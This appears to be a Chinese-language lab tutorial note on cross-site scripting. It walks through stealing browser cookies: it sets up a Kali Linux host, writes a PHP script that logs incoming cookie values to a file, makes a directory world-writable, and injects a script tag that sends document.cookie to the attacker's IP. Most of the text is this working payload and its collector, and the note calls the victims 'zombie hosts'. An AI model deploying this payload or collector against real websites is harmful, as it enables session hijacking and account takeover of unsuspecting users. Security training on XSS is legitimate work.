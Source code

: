 ![image-20201114113810294](73、XSS跨站脚本攻击/image-20201114113810294.png)

```sh
1、获取cookie：渗透机：kali
2、构建收集cookie服务器(也用kali)
3、构造xss代码植入到web服务器
4、等待肉鸡触发xss代码并将cookie发送到kali
5、cookie利用
```

```js
ajax xss
```

![image-20201208094520214](73、XSS跨站脚本攻击/image-20201208094520214.png)

启动kali的apache2

```sh
systemctl start apache2
#创建一个php文件，目的是收集cookie
vi /var/www/html/cookie_rec.php


<?php
	$cookie = $_GET['cookie'];
	$log =fopen('cookie.txt',"a");
	fwrite($log,$cookie . "\n");
	fclose($log)
?>

#测试，访问这个页面，浏览器输入
http://kali的ip/cookie_rec.php

chmod 777 /var/html  #给他一个权限

#植入xss代码,注意先清除之前植入的xss代码
<script>window.open("http://kali的ip/cookie_rec.php?cookie="+document.cookie)</script>
```
